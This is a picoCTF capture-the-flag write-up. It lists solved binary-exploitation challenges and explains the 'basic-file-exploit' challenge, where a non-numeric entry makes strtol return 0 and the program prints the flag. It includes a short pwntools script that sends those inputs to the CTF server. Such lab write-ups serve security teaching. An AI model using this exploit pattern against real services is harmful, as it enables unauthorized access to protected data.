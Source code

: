 # **Binary Exploitation**
- [x] [basic-file-exploit (100)](#basic-file-exploit)
- [x] [buffer overflow 0 (100)](#buffer-overflow-0)
- [x] [CVE-XXXX-XXXX (100)](#CVE-XXXX-XXXX)
- [x] [buffer overflow 1 (200)](#buffer-overflow-1)
- [x] [x-sixty-what (200)](#x-sixty-what)
- [x] [RPS (200)](#RPS)
- [x] [buffer overflow 2 (300)](#buffer-overflow-2)
- [x] [buffer overflow 3 (300)](#buffer-overflow-3)
- [x] [flag leak (300)](#flag-leak)
- [ ] ropfu
- [ ] wine
- [ ] function overwrite
- [ ] stack cache
- [ ] solfire

## **basic-file-exploit**

### ***Description***
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! <br>Connect to the program with netcat: <br>
`$ nc saturn.picoctf.net 49698` <br>
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/538/program-redacted.c).

<details><summary>Hint 1</summary></details>

### ***Writeup***
Look through the source code, I notice that there is a global character pointer `flag` that is redacted, and that in the `data_read()` function there is this:

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

The function puts the flag onto the console if `entry_number==0`, or when the `strtol` function return 0. Looking at the man pages, it seems the function returns 0 when there is an error, most  likely when the function is unable to convert the string to a long. Therefore, the value of `entry` needs to be something that cannot be converted to a long, and the easiest one to use is a letter.

Make sure that the program jumps to `data_read()` by making sure `inputs==0` is not satisfied, which can be incremented by calling `data_write()` by choosing option 1 first. 

Code for `basic-file-exploit.py`:

```python
from pwn import *

p = remote('saturn.picoctf.net', 49698)

p.sendline(b'1')        # enter a phrase
p.sendline(b'1')        # enter data
p.sendline(b'1')        # enter length
p.sendline(b'2')        # echo phrase
p.sendline(b'A')        # entry number

for i in range(3):
        print(p.recvline())
```
